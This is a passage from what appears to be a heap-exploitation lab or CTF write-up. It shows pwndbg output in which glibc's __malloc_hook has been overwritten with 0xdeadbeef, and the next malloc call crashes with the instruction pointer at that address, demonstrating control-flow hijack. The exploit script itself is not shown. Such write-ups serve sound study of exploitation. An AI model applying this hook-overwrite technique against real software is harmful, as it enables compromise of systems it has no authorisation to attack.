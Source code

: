 When you use this script and you dump quad words at `__malloc_hook`, you will find `0xdeadbeef` -

```bash
pwndbg> dq &__malloc_hook 
00007ffff7bafc10     00000000deadbeef 000000000000000a
00007ffff7bafc20     0000000000000000 ffff800008a533f9
00007ffff7bafc30     0000000000000000 0000000000000000
00007ffff7bafc40     0000000000000000 0000000000000000

```

Our next allocation, `malloc` will call `__malloc_hook` which is overwritten with `0xdeadbeef`.

```bash
1) malloc 3/4
2) target
3) quit
> $ 1
size: $ 24

```

In `pwndbg` terminal you'll find -

```bash
pwndbg> c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x00000000deadbeef in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
─────────────[ REGISTERS / show-flags off / show-compact-regs off ]─────────────
*RAX  0xdeadbeef
 RBX  0
*RCX  0
*RDX  0xffffffffffffffe8
*RDI  0x18
*RSI  0x40098a (main+371) ◂— mov rdx, rax
*R8   0x7fffffffe042 ◂— 0xa /* '\n' */
*R9   0
*R10  0x7ffff79618c0 (_nl_C_LC_CTYPE_toupper+512) ◂— add byte ptr [rax], al
*R11  0xa
 R12  0x400730 (_start) ◂— xor ebp, ebp
 R13  0x7fffffffe1b0 ◂— 1
 R14  0
 R15  0
*RBP  0x7fffffffe0d0 —▸ 0x400ab0 (__libc_csu_init) ◂— push r15
*RSP  0x7fffffffe078 —▸ 0x40098a (main+371) ◂— mov rdx, rax
*RIP  0xdeadbeef
──────────────────────[ DISASM / x86-64 / set emulate on ]──────────────────────
Invalid address 0xdeadbeef

```

